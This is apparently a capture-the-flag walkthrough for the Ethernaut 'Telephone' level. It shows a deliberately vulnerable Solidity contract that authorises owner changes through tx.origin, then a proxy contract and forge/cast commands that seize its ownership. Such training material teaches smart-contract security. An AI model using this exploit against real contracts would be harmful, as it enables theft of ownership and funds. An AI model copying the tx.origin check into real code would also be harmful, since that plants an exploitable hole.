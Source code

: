 ## Telephone Level Outline

**Difficulty : 1/10**

Claim ownership of the contract below to complete this level.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x0b6F6CE4BCfB70525A31454292017F640C10c768)

## Solution
we need to send a transaction where `tx.origin != msg.sender`. To do this, we use a proxy contract to call the "changeOwner()" as tx.origin will equal our EOA and msg.sender will equal our deployed contract's address.

### Walkthrough

##### 1. Create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Phone {
    Telephone telephone;

    constructor(address _telephoneAddr) {
       telephone = Telephone(_telephoneAddr);
    } 

    function changeOwner() public {
        telephone.changeOwner(msg.sender);
    }
}

interface Telephone {
    function changeOwner(address _owner) external;
}
```

##### 2. Deploy our new contract
```console
forge create src/Contract.sol:Phone --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

##### 3. Call our newly deployed contract 
```console
cast send $DEPLOYED_ADDRESS "changeOwner()" --private-key=$PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

### [:arrow_left: Back To Main Menu](../)
